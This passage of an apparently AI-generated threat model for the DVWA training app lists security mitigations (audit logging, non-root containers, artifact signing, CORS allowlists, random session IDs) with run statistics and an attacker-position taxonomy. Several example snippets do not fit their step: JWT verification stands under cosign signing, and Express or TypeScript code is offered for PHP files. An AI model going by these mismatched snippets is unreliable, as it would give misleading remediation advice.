1. Add a `dvwaSecurityLog()` helper that writes a JSON line to a dedicated log file (or PHP's `error_log`) with fields: `timestamp`, `event_type`, `username`, `ip`, `session_id`, `outcome`.
2. Call it at: successful login (`dvwaLogin()` in `dvwaPage.inc.php:140`), failed login (`login.php:48`), logout (`logout.php:13`), pass**** (8 chars) change (csrf/captcha modules), and file upload (upload module).
3. Set the log file outside the web root (`/var/log/dvwa/security.log`) with write-only permissions for the web process and no read access via HTTP.

_Example implementation in `login.php:43`: it applies **Add security audit logging**. The ordered steps above remain authoritative._

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** Perform a login failure, a successful login, and a logout; confirm all three events appear in the security log with the correct `outcome` value.

**Reference:** [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)

---

<a id="m-043"></a>
#### M-043 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟡 [F-051](#f-051) — Dockerfile USER directive (non-root) (`Dockerfile:1`)

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Add USER <non-root-uid>

1. Add USER <non-root-uid>
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-002 scanner check; it reports no match at Dockerfile:1, and the regression test passes.

---

<a id="m-044"></a>
#### M-044 — Sign and verify release artifacts

**Addresses:**

- 🔴 [F-052](#f-052) — Container image signing via cosign or attest-build-provenance (`docker-image.yml:1`)

**Prevents CWEs:**

- [CWE-347](https://cwe.mitre.org/data/definitions/347.html) - Improper Verification of Cryptographic Signature

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/docker-image.yml:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-proven…

1. Add cosign signing step to release workflow; or use actions/attest-build-provenance
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `.github/workflows/docker-image.yml:1`: it applies **Sign and verify release artifacts**. The ordered steps above remain authoritative._

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Re-run the IAC-040 scanner check; it reports no match at .`github/workflows/docker-image.yml:1`, and the regression test passes.

---

<a id="m-045"></a>
#### M-045 — Apply least-privilege permissions

**Addresses:**

- 🟡 [F-053](#f-053) — `GITHUB_TOKEN` scope minimization (`docker-image.yml:1`)

**Prevents CWEs:**

- [CWE-732](https://cwe.mitre.org/data/definitions/732.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/docker-image.yml:1`

**How:** Add `permissions: { contents: read }` at root; per-job elevate to…

1. Add `permissions: { contents: read }` at root; per-job elevate to `contents: write` only where needed
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-015 scanner check; it reports no match at .`github/workflows/docker-image.yml:1`, and the regression test passes.

---

<a id="m-046"></a>
#### M-046 — Stop exposing internal information to clients

**Addresses:**

- 🟡 [F-054](#f-054) — Unauthenticated Swagger UI and OpenAPI Specification Exposure (`gen_openapi.php:4`)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/gen_openapi.php:4`

**How:**

1. In production or non-training deployments, disable the Swagger UI endpoint and the `gen_openapi.php` route entirely or restrict them to an authenticated management origin.
2. If Swagger UI must remain accessible for training, require a DVWA session check (`dvwaPageStartup(['authenticated'])`) before serving the spec or the UI.
3. Cache the generated YAML and serve it from a static file to avoid on-demand execution of the OpenApi Generator scanner.

_Example implementation in `vulnerabilities/api/gen_openapi.php:4`: it applies **Stop exposing internal information to clients**. The ordered steps above remain authoritative._

```typescript
// Remove directory-listing middleware; require auth on management endpoints.
// app.use('/ftp', serveIndex(...))   // delete
app.use('/metrics', requireRole('admin'), promBundle())
```

**Verification:** Issue `GET /vulnerabilities/api/openapi.yml` without a session cookie and confirm a 401 or 403 response is returned.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-047"></a>
#### M-047 — Restrict CORS to trusted origins

**Addresses:**

- 🟡 [F-055](#f-055) — Overly Permissive CORS Policy (`index.php:11`)

**Prevents CWEs:**

- [CWE-942](https://cwe.mitre.org/data/definitions/942.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/public/index.php:11`

**How:**

1. Replace the wildcard with an explicit allowlist check: read the Origin request header, validate it against an environment-variable-supplied list, and echo back only matched origins.
2. Never combine Access-Control-Allow-Origin: * with Access-Control-Allow-Credentials: true; the current code does not set the credentials header but the wildcard should still be removed.
3. Apply the same fix to `gen_openapi.php` which also emits the wildcard header.

_Example implementation in `vulnerabilities/api/public/index.php:11`: it applies **Restrict CORS to trusted origins**. The ordered steps above remain authoritative._

```javascript
// Replace in public/index.php:11
$allowed = ['https://dvwa.example.com'];
$origin = $_SERVER['HTTP_ORIGIN'] ?? '';
if (in_array($origin, $allowed, true)) {
    header("Access-Control-Allow-Origin: $origin");
    header("Vary: Origin");
}
```

**Verification:** Send a cross-origin preflight from an unlisted origin; confirm the response does not include an Access-Control-Allow-Origin header matching that origin.

**Reference:** [CWE-942: Permissive Cross-domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)

---

<a id="m-048"></a>
#### M-048 — Use cryptographically secure random values

**Addresses:**

- 🟡 [F-056](#f-056) — Predictable Sequential Session Identifier (`low.php:9`)

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-330](https://cwe.mitre.org/data/definitions/330.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/weak_id/source/low.php:9`

**How:**

1. Replace the sequential counter with `bin2hex(random_bytes(16))` to generate a 128-bit cryptographically random session identifier.
2. Store the issued identifiers server-side in the session to enable server-side validation.
3. Set `HttpOnly`, `Secure`, and `SameSite=Strict` flags on the custom `dvwaSession` cookie.

_Example implementation in `vulnerabilities/weak_id/source/low.php:9`: it applies **Use cryptographically secure random values**. The ordered steps above remain authoritative._

```javascript
// Before (line 9):
$_SESSION['last_session_id']++;
$cookie_value = $_SESSION['last_session_id'];

// After:
$cookie_value = bin2hex(random_bytes(16)); // 32-char hex, 128-bit entropy
```

**Verification:** Generate two session IDs in consecutive requests; confirm they share no sequential relationship and each has at least 128 bits of entropy.

**Reference:** [CWE-330: Use of Insufficiently Random Values](https://cwe.mitre.org/data/definitions/330.html)

---

### P4 — Backlog

_No P4 mitigations._

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `/appsec-advisor:create-threat-model --slug dvwa-v0.5.2 --keep-runtime-files` |
| Generated | 2026-08-02 18:24 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.5.2-dev (analysis v5) |
| Orchestrator model | claude-sonnet-4-6 |
| Reasoning models | sonnet-economy - STRIDE claude-sonnet-4-6,<br/>triage claude-sonnet-5, merger<br/>claude-sonnet-5 |
| Repository | `/home/mrohr/DVWA` |
| Output directory | `/home/mrohr/DVWA/docs/security` |
| Wall clock (active) | 80m 21s |
| Agent compute (Σ parallel dispatches) | 96m 09s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|---------------------------------|----------------------|---------------|--------|----------|---------|
| 1 | Discovery & Architecture Modeling | appsec-threat-analyst | sonnet | 8m 23s | 37 | 112,674 |
| 1 | Trust Boundary Analysis | appsec-trust-boundary-analyst | sonnet | 4m 28s | 18 | 50,680 |
| 1 | Control & Threat Analysis | appsec-threat-analyst | sonnet | 66m 28s | 343 | 746,716 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | claude-sonnet-5 | 3m 53s | 28 | 70,011 |
| 2 | Report Rendering | appsec-threat-renderer | claude-sonnet-5 | 11m 28s | 53 | 175,506 |
| 3 | QA Review | appsec-qa-reviewer | haiku | 1m 27s | 11 | 45,879 |
| **Total** | - | - | - | **96m 09s** | **490** | **1,201,466** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution complete (parallel with<br/>Phase 2) | threat-analyst (sonnet-4-6) | 3m 26s |
| Phase 2 | Reconnaissance - recon-summary ready | recon-scanner (sonnet-4-6) | 3m 26s |
| Phase 3 | Architecture Modeling - 4 diagrams produced<br/>(1m29s) | threat-analyst (sonnet-4-6) | 1m 28s |
| Phase 5 | Asset Identification - 8 assets catalogued<br/>(0m29s) | threat-analyst (sonnet-4-6) | 29s |
| Phase 6 | Attack Surface Mapping - 23 entry points (2<br/>unauthenticated) (0m43s) | threat-analyst (sonnet-4-6) | 43s |
| Phase 7 | Trust Boundary Analysis - canonical coverage<br/>gate passed | threat-analyst (sonnet-4-6) | 4m 54s |
| Phase 4 | (auto-repaired - inline within phase group) | threat-analyst (sonnet-4-6) | 23m 29s |
| Phase 8 | Security Controls - ✅ 0 ⚠️ 2 🔶 4 ❌ 15<br/>(9m25s) | threat-analyst (sonnet-4-6) | 9m 25s |
| Phase 10 | Scan Synthesis - 1 secrets, 2 sca-practice<br/>MF, 0 known-bad-libs MF, dep-update… | threat-analyst (sonnet-4-6) | 18s |
| Phase 10b | Triage Validation - 28 flags (24 warnings, 4<br/>info), 1 compound chain (CC-02 Critical) | appsec-triage-validator (sonnet-4-6) | 3m 21s |
| Phase 11 | Substeps 1-3 complete - yaml built (57<br/>threats, 48 mitigations), cache updated… | threat-analyst (sonnet-4-6) | 1m 22s |
| Phase 11 | Finalization (controller compose) | threat-analyst (sonnet-4-6) | 12m 26s |

---

<a id="appendix-composition-notes"></a>
## Appendix: Composition Notes

The composition pipeline emitted the soft warnings listed below. These do not block release (the contract still passed) but they flag content the renderer could not fully validate - typically `NARRATIVE_PLACEHOLDER` leakage from Stage-2 incomplete authoring or Mermaid syntax that downstream parsers may reject.

### Soft Warnings

| Section | Category | Detail |
|-------------|--------|----------------------|
| (unspecified) | `other` | `security-posture-attack-paths.json` is<br/>schema-invalid (FragmentError); falling back<br/>to deterministic derivation at render time |
| (unspecified) | `other` | mermaid edge-label auto-quoted: 1 unsafe<br/>label(s) wrapped with "..." to prevent<br/>parser ambiguity |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2025, A05:2025, A07:2025

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2025, A06:2025, A02:2025

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2025

<a id="vektor-victim-requ**** (8 chars)"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2025, A05:2025

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2025

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A04:2025, A07:2025

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)